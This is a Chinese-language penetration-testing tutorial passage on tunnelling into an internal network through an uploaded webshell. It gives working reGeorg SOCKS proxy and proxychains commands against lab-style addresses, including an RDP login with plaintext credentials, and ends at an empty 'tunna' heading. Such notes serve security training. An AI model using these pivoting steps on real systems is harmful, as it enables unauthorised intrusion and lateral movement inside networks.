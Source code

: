 在目标服务器上传一个webshell，通过shell来做所有的流量转发到内网，常见的几个工具有[reGeorg](https://github.com/sensepost/reGeorg/tree/1ca54c2a6ab22ded150d04cff8fdb796990b1ced)，meterpreter，tunna等等，甚至直接写一个简单的代理脚本，在自己机器上配置一下nginx直接进行反向代理



## reGeorg

见[reGeorg](https://github.com/sensepost/reGeorg/tree/1ca54c2a6ab22ded150d04cff8fdb796990b1ced)

上传tunnel.aspx文件到目标服务器，然后在kali上执行以下命令进行代理：

```bash
python reGeorgSocksProxy.py -u "http://10.10.10.129/tunnel.aspx" -p 8081
```

在`/etc/proxychains.conf`添加`-p`指定的端口，然后使用proxychains进行代理：

```bash
proxychains xfreerdp /u:win2k8 /p:admin /v:192.168.200.10
```

![](/img/hack/%E4%BB%A3%E7%90%86/reG.png)

> 进行proxychains进行代理nmap扫描时候，尽量使用`-sT`和 `-Pn`

## tunna 
